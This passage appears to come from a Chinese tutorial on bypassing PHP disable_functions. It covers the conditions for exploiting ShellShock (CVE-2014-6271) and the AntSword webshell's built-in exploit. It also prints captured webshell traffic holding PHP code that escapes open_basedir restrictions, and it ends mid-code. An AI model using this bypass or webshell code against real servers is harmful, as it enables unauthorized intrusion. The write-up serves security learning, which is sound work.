 在compose文件里，容器会映射到主机的`18080`端口


### 利用


利用条件：

- Linux 操作系统
- putenv
- mail or error_log 本例中禁用了 mail 但未禁用 error_log
- /bin/bash 存在 CVE-2014-6271 漏洞
- /bin/sh -> /bin/bash sh 默认的 shell 是 bash


AntSword 虚拟终端中已经集成了对 ShellShock 的利用, 可以在虚拟终端直接执行命令

![14](/medias/disable_func/14.png)


可以在上面蚁剑流量分析里找到`shellshock`的绕过姿势

这里是抓取的一份蚁剑webshell终端执行ls命令的流量

::: details
```php
<?php
@ini_set("display_errors", "0");
@set_time_limit(0);

// 绕过 open_basedir 限制
$opdir = @ini_get("open_basedir");
if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split("/[;|:]/", $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());
    foreach ($oparr as $item) {
        if (!@is_writable($item)) continue;
        $tmdir = $item . "/.4ce2376c";
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) continue;
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr = @preg_split("/[\\\\|\/\/]/", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        }
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    }
}

function asenc($out) {
    return $out;
}

```